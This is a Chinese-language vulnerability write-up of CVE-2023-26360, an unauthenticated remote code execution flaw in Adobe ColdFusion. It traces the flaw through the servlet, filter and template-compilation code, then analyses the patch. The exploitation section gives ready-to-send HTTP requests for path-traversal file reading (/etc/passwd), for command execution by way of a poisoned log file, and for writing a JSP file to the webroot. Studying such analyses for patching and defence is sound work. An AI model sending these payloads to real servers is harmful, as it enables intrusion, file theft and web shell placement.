# Adobe ColdFusion 未授权 RCE 漏洞分析 CVE-2023-26360 - 先知社区

Adobe ColdFusion 未授权 RCE 漏洞分析 CVE-2023-26360

- - -

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125001505-bc4510c4-bad3-1.png)

漏洞利用条件：无  
漏洞影响版本：Adobe ColdFusion < 2018.0.16、Adobe ColdFusion < 2021.0.6  
本文分析环境：Adobe Fusion 2018.0.15 版本

## 前言

Adobe ColdFusion 是一种用于构建动态 Web 应用程序的服务器端编程语言和开发平台。它由 Adobe Systems 开发和维护。ColdFusion 的主要目标是简化 Web 应用程序的开发过程，通过提供一个强大且易于使用的平台，使开发人员能够快速构建功能丰富的 Web 应用。

## 漏洞分析

网上的漏洞利用入口为 **/cf\_scripts/scripts/ajax/ckeditor/plugins/filemanager/filemanager.cfc** ，我们就先来分析 **\*.cfc** 的路由处理逻辑。从 **web.xml** 配置文件里面可以看到，该路由的处理类为 **coldfusion.bootstrap.BootstrapServlet** 。而这个类只是一个入口类，实际处理类为 **coldfusion.xml.rpc.CFCServlet** 。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125002945-c8fc6518-bad5-1.png)

在 **coldfusion.xml.rpc.CFCServlet** 这个类里，使用 **IPFilterUtils.checkAdminAccess()** 函数来判断当前路由用户是否有权限访问。然而这个函数使用了 **req.getRequestURI()** 和 **startsWith()** 来判断权限，明显存在绕过。例如：原先访问 **/CFIDE/adminapi** 会被限制，现在改成 **/CFIDE//adminapi** 即可绕过程序检测。这处绕过，也就是后面的 **CVE-2023-29298** 漏洞。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125003008-d6740a2a-bad5-1.png)

本次我们分析的是 **CVE-2023-26360** ，继续往下跟代码逻辑。**Adobe ColdFusion** 程序根据不同的请求类型（**CFC**或者**Axis**），创建对应的 **filterchain** 。在 **CFC** 对应的的 **filterchain** 中，我们需要关注 **GlobalsFilter、ComponentFilter** 这两个 **filter** 。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125003021-de30474c-bad5-1.png)

第一个过滤器 **GlobalsFilter** ，主要用来初始化请求相关信息，并将这些信息封装在不同的 **scope** 里。后续 **POC** 中的部分参数，就是从这些 **scope** 中获取，所以这里稍微关注下就行。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125003120-01390706-bad6-1.png)

第二个过滤器 **ComponentFilter** ，就是本次漏洞要关注的核心类了。这里，我们需要重点关注以下 3 个部分。

-   第 1 个部分：我们需要将 **urlScope.get("\_cfclient")** 设置为 **true** ，这样才能触发到后续的漏洞点。而 **urlScope** 中的数据来自 **GET** 请求数据，所以我们正常设置 **\_cfclient=true** 就行。
-   第 2 个部分：这里调用了 **FilterUtils.GetArgumentCollection(context)** ，该函数主要是将用户请求数据重新封装起来。在函数里面，我们关注到调用了 **WDDXDeserialize()** ，存在一个反序列化操作。这处也就是后续的 **CVE-2023-29300** 漏洞，本文暂不讨论。
-   第 3 个部分：这处会把第 2 步封装好的数据，传给 **JSONUtils.deserializeJSON()** 函数处理。这个函数调用栈比较长，我们下面会逐步分析。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125003131-07e3c5b4-bad6-1.png)

在 **JSONUtils.deserializeJSON()** 函数中，程序会从用户请求数据中取 **classname** 数据，然后将其传给 **TemplateProxyFactory.resolveFile()** 函数。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125003141-0e0005d4-bad6-1.png)

**TemplateProxyFactory.resolveFile()** 函数，会根据传进来的文件路径，去加载对应的类。如果我们指定的路径文件不是标准的 **Java** 字节码文件，程序会自动把他编译成字节码文件，最终缓存至 **/app/WEB-INF/cfclasses/** 目录下。新编译的类继承自 **coldfusion.runtime.CFPage** ，并且程序最终会调用新编译类的 **runPage()** 方法。我们可以来看一下，当模板文件名为 **../../../../../../../../../../../../../etc/passwd** 时，程序编译后的字节码文件如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125003226-28b759ea-bad6-1.png)

那么通过这一特性，我们就能达到任意文件读取的效果。在审计代码时，我们会发现这个系统上自带一些 **cfc** 文件。这些文件里面出现了很多特殊标签，如 **cfinclude、cffunction、cfargument、cfset、cfif** 等。通过查询资料，我们发现这些标签都属于 **CFML**（ColdFusion Markup Language）语言的一部分。那么我们就可以通过翻阅[官方手册](https://cflib.org/udf/FileWrite)，找一些危险函数来达到 **RCE** 的目的。  
例如：写文件函数

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125003238-2fd3a67a-bad6-1.png)

例如：命令执行函数

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125003250-36daf450-bad6-1.png)

最终的利用思路：将 **CFML** 语句通过报错写入日志文件中，然后再通过 **CVE-2023-26360** 漏洞编译、执行日志文件实现 **RCE** 。

## 漏洞利用

### 任意文件读取

```plain
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/filemanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: 127.0.0.1:8500
Content-Length: 90
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close

_variables={"_metadata":{"classname":"../../../../../../../../../../../../../etc/passwd"}}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125003325-4c24d3d0-bad6-1.png)

### 命令执行

```plain
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/filemanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: 127.0.0.1:8500
Content-Length: 67
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close

_variables=<cfexecute name='id' outputFile='/tmp/aaa' ></cfexecute>
```

```plain
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/filemanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: 127.0.0.1:8500
Content-Length: 178
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close

_variables={"_metadata":{"classname":"../../../../../../../../../../../../../../../../../../../../../../../../../opt/coldfusion/cfusion/logs/coldfusion-out.log","_variables":[]}}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125003335-51e95796-bad6-1.png)

### 文件写入

```plain
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/filemanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: 127.0.0.1:8500
Content-Length: 108
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close

_variables=<cfscript>fileWrite('/opt/coldfusion/cfusion/wwwroot/cf_scripts/demo.jsp','<%=233%>');</cfscript>
```

```plain
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/filemanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: 127.0.0.1:8500
Content-Length: 178
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close

_variables={"_metadata":{"classname":"../../../../../../../../../../../../../../../../../../../../../../../../../opt/coldfusion/cfusion/logs/coldfusion-out.log","_variables":[]}}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125003344-575b2754-bad6-1.png)

## 补丁分析

官方修复方式：所有的 **cfclient** 请求，文件后缀必须是 **.cfc** 结尾，相当于只能请求服务器上已有的 **cfc** 文件了。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125003354-5d4ed5b6-bad6-1.png)

## 参考文章

[https://blog.securelayer7.net/unauthorized-rce-in-adobe-coldfusion/](https://blog.securelayer7.net/unauthorized-rce-in-adobe-coldfusion/)  
[https://attackerkb.com/topics/F36ClHTTIQ/cve-2023-26360/rapid7-analysis](https://attackerkb.com/topics/F36ClHTTIQ/cve-2023-26360/rapid7-analysis)  
[https://shfsec.com/cve-analysis-adobe-coldfusion-from-lfi-to-rce-cve-2023-26359-cve-2023-26360](https://shfsec.com/cve-analysis-adobe-coldfusion-from-lfi-to-rce-cve-2023-26359-cve-2023-26360)
